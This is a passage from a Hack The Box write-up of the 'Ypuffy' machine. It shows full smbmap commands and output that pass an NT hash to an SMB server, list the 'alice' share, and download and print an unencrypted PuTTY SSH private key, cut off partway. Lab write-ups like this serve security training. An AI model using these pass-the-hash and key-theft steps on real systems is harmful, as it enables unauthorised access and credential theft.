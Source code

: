 ### Passing the hash

The first thing I did was look up the NT hash online to see if I could quickly get the password but I didn't find any match for this one. It probably uses a strong password which I won't waste time cracking.

![](/assets/images/htb-writeup-ypuffy/ntlm.png)

We don't have the password but we can pass the hash to the Samba server and list the shares:

```
root@ragingunicorn:~# smbmap -u alice1978 -p '00000000000000000000000000000000:0B186E661BBDBDCF6047784DE8B9FD8B' -d hackthebox.htb -H 10.10.10.107
[+] Finding open SMB ports....
[+] Hash detected, using pass-the-hash to authentiate
[+] User session establishd on 10.10.10.107...
[+] IP: 10.10.10.107:445	Name: 10.10.10.107                                      
	Disk                                                  	Permissions
	----                                                  	-----------
	alice                                             	READ, WRITE
	IPC$                                              	NO ACCESS
```

Cool, we can access the `alice` share. Next I listed all the files in the share:

```
root@ragingunicorn:~# smbmap -u alice1978 -p '00000000000000000000000000000000:0B186E661BBDBDCF6047784DE8B9FD8B' -s alice -R -H 10.10.10.107
[+] Finding open SMB ports....
[+] Hash detected, using pass-the-hash to authentiate
[+] User session establishd on 10.10.10.107...
[+] IP: 10.10.10.107:445	Name: 10.10.10.107                                      
	Disk                                                  	Permissions
	----                                                  	-----------
	alice                                             	READ, WRITE
	.\
	dr--r--r--                0 Thu Feb  7 20:48:09 2019	.
	dr--r--r--                0 Tue Jul 31 23:16:50 2018	..
	-r--r--r--             1460 Mon Jul 16 21:38:51 2018	my_private_key.ppk
	IPC$                                              	NO ACCESS
```

That SSH private key looks interesting, let's download it and confirm this is really an SSH key:

```
root@ragingunicorn:~# smbmap -u alice1978 -p '00000000000000000000000000000000:0B186E661BBDBDCF6047784DE8B9FD8B' --download alice/my_private_key.ppk -H 10.10.10.107
[+] Finding open SMB ports....
[+] Hash detected, using pass-the-hash to authentiate
[+] User session establishd on 10.10.10.107...
[+] Starting download: alice\my_private_key.ppk (1460 bytes)
[+] File output to: /usr/share/smbmap/10.10.10.107-alice_my_private_key.ppk
root@ragingunicorn:~# file /usr/share/smbmap/10.10.10.107-alice_my_private_key.ppk
/usr/share/smbmap/10.10.10.107-alice_my_private_key.ppk: ASCII text, with CRLF line terminators
root@ragingunicorn:~# cat /usr/share/smbmap/10.10.10.107-alice_my_private_key.ppk
PuTTY-User-Key-File-2: ssh-rsa
Encryption: none
Comment: rsa-key-20180716
Public-Lines: 6
AAAAB3NzaC1yc2EAAAABJQAAAQEApV4X7z0KBv3TwDxpvcNsdQn4qmbXYPDtxcGz
1am2V3wNRkKR+gRb3FIPp+J4rCOS/S5skFPrGJLLFLeExz7Afvg6m2dOrSn02qux
BoLMq0VSFK5A0Ep5Hm8WZxy5wteK3RDx0HKO/aCvsaYPJa2zvxdtp1JGPbN5zBAj
h7U8op4/lIskHqr7DHtYeFpjZOM9duqlVxV7XchzW9XZe/7xTRrbthCvNcSC/Sxa
iA2jBW6n3dMsqpB8kq+b7RVnVXGbBK5p4n44JD2yJZgeDk+1JClS7ZUlbI5+6KWx
```